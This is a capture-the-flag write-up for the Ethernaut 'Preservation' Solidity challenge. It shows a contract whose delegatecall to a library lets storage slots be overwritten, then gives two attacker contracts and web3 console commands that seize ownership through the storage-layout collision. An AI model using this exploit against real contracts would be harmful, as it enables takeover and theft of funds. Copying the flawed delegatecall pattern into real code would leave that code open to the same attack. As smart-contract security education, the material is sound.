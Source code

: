 <img src="preservation.png" alt="preservation" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

<hr />

# Hack

1)
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract PreservationHack {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;

  constructor() public {}

  function setTime(uint256 _time) public {
    owner = address(uint160(_time));
  }

}
```
OR

2)
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract PreservationHack {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;

  constructor() public {}

  function setTime(uint256) public {
    owner = msg.sender;
  }
}
```

The delegatecall calls the another contract function such that the implementation code is that of the another contract but the state changes takes place on the contract running the delegatecall and also the msg.sender, msg.value etc on the called contract is that of the account calling the contract function with the delegatecall.

1) First step is to call setFirstTime function on the Preservation contract on the console with uint256 casted value of address of the PreservationHack contract. In my case 0x83A8aa134002dAAab1dc57d99968583c0057f0Ca is the PreservationHack contract address which is deployed using Remix.

```
await contract.setFirstTime(web3.eth.abi.encodeParameter('uint256', "0x83A8aa134002dAAab1dc57d99968583c0057f0Ca"));
```

web3.eth.abi.encodeParameter('uint256', "0x83A8aa134002dAAab1dc57d99968583c0057f0Ca") converts address which is uint160 to uint256. The conversion of 160bits to 256bits takes place by adding zeroes on the left until it becomes 256bits. So the result is uint256 i.e. 0x00000000000000000000000083a8aa134002daaab1dc57d99968583c0057f0ca

So after the first step the Library contract stores the uint256 _timestamp sent to the first slot and due to the nature of delegatecall the address of the PreservationHack contract is stored at slot 0 i.e timeZone1Library on Preservation contract. The uint256 is casted to address type which is 160bits so the original address of the PreservationContract is store. So now we can step into the second step of the attack.

2) So for the second step for the first PreservationHack contract we send uint256 casted value of the player address to set it to the third slot i.e owner on the Preservation contract.

```
await contract.setFirstTime(web3.eth.abi.encodeParameter('uint256', player));
```

For the second PreservationHack contract, we can send any uint256 as timestamp and owner will have the msg.sender value set as the context is of the Preservation contract but the implementation code used is of the PreservationHack contract.

```
await contract.setFirstTime(1);
```